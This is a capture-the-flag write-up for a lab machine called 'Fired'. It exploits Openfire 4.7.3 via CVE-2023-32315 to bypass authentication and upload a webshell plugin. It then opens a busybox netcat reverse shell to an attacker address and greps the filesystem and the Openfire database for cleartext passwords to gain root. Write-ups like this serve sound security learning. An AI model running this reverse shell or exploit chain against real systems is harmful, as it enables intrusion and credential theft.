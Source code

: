 # Fired

So i start my enumeration by scanning for open ports ->

```
nmap -p- 192.168.52.96 --vv
nmap -sCV 192.168.52.96 > nmap.out
```

and i discover the following services:

```
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
9090/tcp open  zeus-admin     syn-ack ttl 63
9091/tcp open  xmltec-xmlmail syn-ack ttl 63
```

On the first service i see an admin console:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Openfire, Version: 4.7.3</p></figcaption></figure>

And the version seems vulnerable to this exploit:

{% embed url="https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT" %}

So i managed to use the exploit that creates credentials to bypass auth:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

So i looked around for interesting stuff and found this Plugins tab that seemed shady:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

And after looking it up i found a webshell plugin that i could try to abuse:

{% embed url="https://github.com/miko550/CVE-2023-32315/blob/main/openfire-management-tool-plugin.jar" %}

I upload the plugin and navigate to the webshell just like in the poc and i can now execute commands:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

just before getting my revshell i catch the flag:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

So here i got stuck for few minutes and started to look at all my shell techniques and couldn't get a reverse shell, and found a `which busybox` command that i never used and it worked i got my shell with:

```
busybox nc 192.168.49.52 4444 -e /bin/sh
```

and i looked into why this one works and the others don't and came to the conclusion that `nc` doesn't work because its version **doesn't support the `-e` option** (for security reasons). However, `busybox nc` works because **BusyBox includes a version of Netcat that still allows `-e`** to execute a shell.

I popped a low interactive shell so i quickly upgraded it:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

So i had a hard time on privesc, i tried linpeas, suid and all the usual enumeration, then i tried grepping for passwords with&#x20;

```
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```

I didn' t see much but i found many things related to databases which i hate enumerating and i remembered that in the openfire web instance there was an admin user so i thought that maybe the password would be in cleartext somewhere so i looked around and went into `/var/lib` which is a directory in Linux is used to store **variable state information** for system services and applications and stored **Databases** (e.g., `/var/lib/mysql` for MySQL, `/var/lib/postgresql` for PostgreSQL) so maybe my openfire db was there and indeed it was. I grepped for passwords and found a password which made me able to login as root:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption><p><span data-gb-custom-inline data-tag="emoji" data-code="1f389">🎉</span></p></figcaption></figure>

